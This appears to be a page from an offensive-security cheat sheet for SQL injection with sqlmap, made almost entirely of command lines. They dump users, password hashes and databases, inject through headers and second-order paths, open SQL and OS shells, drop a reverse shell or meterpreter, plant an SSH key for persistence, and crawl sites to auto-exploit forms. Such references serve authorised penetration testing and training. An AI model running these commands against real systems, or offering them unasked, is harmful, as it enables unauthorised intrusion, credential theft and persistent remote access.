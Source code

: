 ## SQL injection using SQLmap

### Basic arguments for SQLmap

```powershell
sqlmap --url="<url>" -p username --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
```

### Load a request file and use mobile user-agent

```powershell
sqlmap -r sqli.req --safe-url=http://10.10.10.10/ --mobile --safe-freq=1
```

### Custom injection in UserAgent/Header/Referer/Cookie

```powershell
python sqlmap.py -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
The injection is located at the '*'
```

### Second order injection

```powershell
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

### Shell

```powershell
SQL Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell

Simple Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell

Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn

SSH Shell by dropping an SSH key
python sqlmap.py -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/
```

### Crawl a website with SQLmap and auto-exploit

```powershell
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```
